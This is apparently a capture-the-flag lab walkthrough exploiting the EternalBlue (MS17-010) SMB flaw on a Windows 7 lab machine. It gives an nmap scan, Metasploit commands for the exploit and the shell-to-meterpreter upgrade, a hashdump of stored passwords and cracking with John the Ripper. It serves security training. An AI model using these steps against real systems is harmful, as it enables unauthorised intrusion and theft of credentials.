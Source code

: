 #Windows #EternalBlue #MS17-010

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.10.33.86
  ```

- To see the versions of the services running (**-sV**)
- To perform a script scan using the default set of scripts (**-sC**)
- To scan all ports from 1 through 65535 (**-p-**)

OPEN PORTS

* 135/tcp msrpc Microsoft Windows RPC

![image](https://user-images.githubusercontent.com/99097743/171191732-73be2919-4881-4759-bf5a-eeb8b8460a9a.png)

* 139/tcp open  netbios-ssn Windows 7 Professional 7601 Service Pack 1 netbios-ssn

![image](https://user-images.githubusercontent.com/99097743/171191815-76b01734-be5b-4a75-b7d8-deaf07334a2d.png)

* 139/tcp open  netbios-ssn Windows 7 Professional 7601 Service Pack 1 netbios-ssn

![image](https://user-images.githubusercontent.com/99097743/171191940-4d44c027-59e1-45af-9635-fa1d279731d2.png)

* 3389/tcp open  ssl/ms-wbt-server?

![image](https://user-images.githubusercontent.com/99097743/171192028-c0d68993-f0d4-435b-bf66-4ecbf95e6992.png)


**MS17-010 KNOWLEDGE BASE**

Reference: https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/windows/smb/ms17_010_eternalblue

ms17_010_eternalblue is a remote exploit against Microsoft Windows, originally written by the Equation Group (NSA) and leaked by Shadow Brokers (an unknown hacking entity). It is considered a reliable exploit and allows you to gain access not only as SYSTEM - the highest Windows user mode privilege, but also full control of the kernel in ring 0. In modern day penetration tests, this exploit can be used in internal and external environments.

As far as remote kernel exploits go, this one is highly reliable and safe to use.

The check command of ms17_010_eternalblue is also highly accurate, because Microsoft's patch inadvertently added an information disclosure with extra checks on vulnerable code paths.

This exploit works against a vulnerable SMB service from one of these Windows systems:

* Windows XP x86 (All Service Packs)
* Windows 2003 x86 (All Service Packs)
* Windows 7 x86 (All Service Packs)
* Windows 7 x64 (All Service Packs)
* Windows 2008 R2 x64 (All Service Packs)
* Windows 8.1 x64
* Windows Server 2012 R2 x64
* Windows 10 Pro x64 (< Version 1507)
* Windows 10 Enterprise Evaluation x64 (< Version 1507)

To determine whether the machine is vulnerable, you will have to either examine the system's patch level, or use a vulnerability check.

**GAIN FOOTHOLD**

We can now use `metasploit` to gain access. Here are the steps:

```sh
msfconsole
search eternalblue
use windows/smb/ms17_010_eternalblue
show options
set RHOSTS
set LHOST
run
```

![image](https://user-images.githubusercontent.com/99097743/171214941-056ec471-839f-4e63-829a-d382224b9803.png)


**ESCALATE**

We need to upgrade the shell from the command line module to a more functional meterpreter. 

First, let's background the session by clicking `CTRL+Z`. You can see the active session with the `sessions` command:

![image](https://user-images.githubusercontent.com/99097743/171216893-e2977fe8-1f18-4294-bfca-a7b113bd62a4.png)

Now we need search for `shell_to_meterpreter`

![image](https://user-images.githubusercontent.com/99097743/171218485-79849cf9-a5c1-42dc-9387-c2c2e0673a92.png)

Please make sure the session info is updated: `set SESSION 1`

![image](https://user-images.githubusercontent.com/99097743/171218893-6f197426-71fd-43b4-94fb-0e82ba1cc9e8.png)

We can now list the sessions and select Session 2 for the rest of the lab:

![image](https://user-images.githubusercontent.com/99097743/171219818-c114247f-de7c-48b7-86fc-38e6e2590750.png)

**CRACKING**

`hashdump` command will dump all of the passwords on the machine as long as we have the correct privileges to do so.

![image](https://user-images.githubusercontent.com/99097743/171225571-382756c2-7d5f-4b85-aa8c-8b512b4f4a50.png)

We can crack the password using **John the Ripper**. Please make sure to include `--format=NT` here:

![image](https://user-images.githubusercontent.com/99097743/171227324-e3b7b13c-b2d5-49b6-b06e-0c81980c7a51.png)

**FLAGS**

Flag #1

![image](https://user-images.githubusercontent.com/99097743/171230327-a4df5672-e3f5-44f5-967c-46bef0cd094c.png)

Flag #2: Located where passwords are stored within Windows (SAM)

![image](https://user-images.githubusercontent.com/99097743/171230730-18af3044-fd5e-4208-b8bf-d8e83fe77f33.png)


